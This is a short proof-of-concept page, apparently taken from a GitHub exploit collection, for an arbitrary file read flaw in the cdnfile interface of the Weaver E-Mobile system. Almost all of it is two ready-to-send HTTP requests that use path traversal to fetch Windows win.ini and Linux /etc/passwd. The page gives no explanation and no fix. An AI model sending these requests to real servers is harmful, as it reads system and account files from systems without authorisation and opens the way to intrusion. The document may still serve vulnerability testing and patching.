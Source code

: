 # emobile_cdnfile_fileread

```
GET /client/cdnfile/1C/Windows/win.ini?windows HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

```
GET /client/cdnfile/C/etc/passwd?linux HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEOA/%E6%B3%9B%E5%BE%AEE-Mobile%E7%B3%BB%E7%BB%9F%E6%8E%A5%E5%8F%A3cdnfile%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
